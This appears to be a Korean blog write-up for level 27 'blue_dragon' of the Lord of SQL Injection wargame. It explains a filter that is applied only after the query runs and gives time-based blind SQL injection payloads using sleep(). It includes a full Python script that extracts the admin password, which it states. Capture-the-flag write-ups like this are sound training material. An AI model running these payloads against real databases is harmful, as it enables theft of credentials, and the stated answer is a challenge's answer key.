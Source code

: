 ```yaml
---
title: LOS - 27번 blue_dragon
category: Lord of SQL Injection
---
```


# [27] blue_dragon

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FKFIKw%2FbtroCv4EK0q%2F34qar1nyDQNZRXZPTiBYE0%2Fimg.png">

## 풀이

1. 싱글쿼터와 역슬래시를 필터링하고 있다.

2. pw를 알아내야하는 Blind SQLi 문제이다.

<br>

이전 문제들과 뭔가 다른 점은 다음 부분이다.

```php
$result = @mysqli_fetch_array(mysqli_query($db,$query));
if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
```
 
쿼리를 먼저 실행한 이후에 싱글쿼터와 역슬래시를 필터링하고 있다.

싱글쿼터나 역슬래시가 포함된 문자열을 페이로드로 전달하더라도 쿼리는 실행될 것임을 추측할 수 있다.

다만, 필터에 걸릴 시 No Hack으로 exit해주고 있기 때문에 육안으로는 쿼리의 참/거짓 결과를 알 수가 없다.

따라서 이번 문제에서는 처음으로 Time Based SQLi를 사용해보았다!

<br>

[1] pw 길이 찾기

```
?id=' || id='admin' and if(length(pw)=[숫자], sleep(3), 0) %23
```

→ 뒷부분은 전부 주석으로 날려주었기 때문에 pw 페이로드는 전달할 필요가 없다.

<br> 

[2] 완전한 pw 찾기

```
?id=' || id='admin' and if(ascii(substr(pw,[인덱스],1))=[아스키], sleep(3), 0) %23
```

→ 역시 pw 페이로드는 전달할 필요가 없다.

<br>

[3] 참/거짓 판별

→ Request를 보낸 이후 Response가 도착하기까지 걸린 시간을 측정하여 3초가 넘으면 참으로 본다.

<br>

```python
import requests
import time

url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"
cookie = {"PHPSESSID":"leco90m74ui20oikeo0n338f6b"}

print("🖤 Start SQLi...")

for i in range(1,100):
    payload = f"?id=' || id='admin' and if(length(pw)={i},sleep(3),0) %23"
    pre = time.time()
    requests.get(url+payload, cookies=cookie)
    post = time.time()
    if(post-pre>3):
        length = i
        print(f">> length : {length}")
        break

ans=""

for letter in range(1,length+1):
    print(f"🖤 Checking letter {letter}...")
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))>={middle},sleep(3),0) %23"
        pre = time.time()
        requests.get(url+payload, cookies=cookie)
        post = time.time()
        if(post-pre>3):
            payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))={middle},sleep(3),0) %23"
            pre = time.time()
            requests.get(url+payload, cookies=cookie)
            post = time.time()
            if(post-pre>3):
                print(f">> letter {letter} → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
        else:
            end = middle
            continue

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FeBeESw%2FbtroDPaeKTt%2FzQ2nB2e2UXsR6W4i8TLEzk%2Fimg.png">

답은 `d948b8a0` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5Wdoj%2FbtroCwvIybX%2FnimHxDRsIC3HlDBClY1PN1%2Fimg.png">